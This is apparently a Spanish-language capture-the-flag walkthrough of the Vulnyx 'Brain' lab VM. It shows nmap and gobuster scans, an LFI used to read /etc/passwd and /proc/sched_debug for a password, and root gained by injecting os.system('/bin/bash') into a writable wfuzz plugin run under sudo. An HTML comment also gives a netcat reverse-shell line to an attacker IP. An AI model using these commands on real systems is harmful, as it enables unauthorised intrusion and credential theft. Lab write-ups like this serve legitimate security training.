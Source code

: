 ```yaml
---
layout: post
title: "Brain"
date: 2024-04-19 12:57:23
category: sample
vm: vulnyx
---
```


<style>
  .post-content {
    color: #51c25be1; /* Cambia el color del texto */
  }
</style>

<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/vulnyx/vulnyx.png" width=252></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Brain </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Dificultad:</strong> <span class="easy">Easy</span></td> </tr>
  <tr> <td><strong>Link OVA:</strong><a href="https://vulnyx.com/#brain"> Vulnyx</a></td> </tr>
</table>

<br>

![serve](/notas/public/img/vulnyx/brain/host.png){:.margin}{:.margin}

**1\.** Verificamos dispositivos en la red.

`sudo arp-scan -I enp2s0 --localnet`

![host](/notas/public/img/vulnyx/brain/arp_scan.png){:.margin}

**2\.** Escaneamos puertos del host víctima.

`sudo nmap -p- -sS -T5 -sCV --open --min-rate=5000 -n -Pn 192.168.1.7 -oN report_scan`

![host](/notas/public/img/vulnyx/brain/nmap.png){:.margin}

**3\.** Visitamos el servicio Apache por el puerto 80.

`http://192.168.1.7/`

![host](/notas/public/img/vulnyx/brain/80.png){:.margin}

**4\.** Hacemos fuzzing de directorios y archivos.

`gobuster dir -u http://192.168.1.7/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,php,txt`

![host](/notas/public/img/vulnyx/brain/gobuster.png){:.margin}

- Si visitamos index.php vemos lo mismo:

![host](/notas/public/img/vulnyx/brain/index.png){:.margin}

**5\.** Hacemos fuzzing de parámetros en busca de un LFI..

`wfuzz -c -t 50 --hl=7 --hc=404 -w /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt 'http://192.168.1.7/index.php?FUZZ=/etc/passwd'`

![host](/notas/public/img/vulnyx/brain/wffuz.png){:.margin}

**6\.** Ingresamos la ruta completa con el parámetro hallado.

`http://192.168.1.7/index.php?include=/etc/passwd`

![host](/notas/public/img/vulnyx/brain/include.png){:.margin}

_tenemos inclusion de archivos locales (LFI)_

- Si presionamos `ctrl + u` podemos visualizar mejor, y encontramos el usuario ben:

![host](/notas/public/img/vulnyx/brain/ben.png){:.margin}

**7\.** incluimos el la ruta sched_debug, donde podemos ver la contraseña de ben.

`view-source:http://192.168.1.7/index.php?include=/proc/sched_debug`

![host](/notas/public/img/vulnyx/brain/sched_debug.png){:.margin}

_\- Si un servidor web tiene una vulnerabilidad LFI y permite acceder a esta ruta, un atacante podría obtener información confidencial, como contraseñas almacenadas en memoria._

**8\.** Accedemos por ssh al host como el usuario ben.

`ssh ben@192.168.1.7`

![host](/notas/public/img/vulnyx/brain/ssh_ben.png){:.margin}

**9\.** Listamos permisos sudo, podemos ejecutar el binario wfuzz como root.

`sudo -l`

![host](/notas/public/img/vulnyx/brain/sudo_l.png){:.margin}

_\- buscando en la web [gtfobins](https://gtfobins.github.io/#wfuzz) no encontramos referencia alguna._

**10\.** Buscamos archivos con permisos de escritura relacionados al binario wfuzz.

`find / -type f -writable 2> /dev/null | grep wfuzz`

![](/notas/public/img/vulnyx/brain/find.png){:.margin}

**11\.** Agregamos estas 2 lineas para obtener una bash.

`nano /usr/lib/python3/dist-packages/wfuzz/plugins/payloads/range.py`

`import os`

`os.system("/bin/bash")`

![](/notas/public/img/vulnyx/brain/nano.png){:.margin}

<!-- os.system("nc -e (/bin/sh 192.168.1.12 443") ///alternativa enivarnos una shell -->

**12\.** Ejecutamos el binario como root, ya somos superusuario.

`sudo /usr/bin/wfuzz -c -z range 1-2`

![](/notas/public/img/vulnyx/brain/root.png){:.margin}

**13\.** Finalizamos leendo la flag de root.

`cd`

`ls`

`cat root.txt`

![](/notas/public/img/vulnyx/brain/flag.png){:.margin}

<br>

<span class="finish">_Finalizado._</span>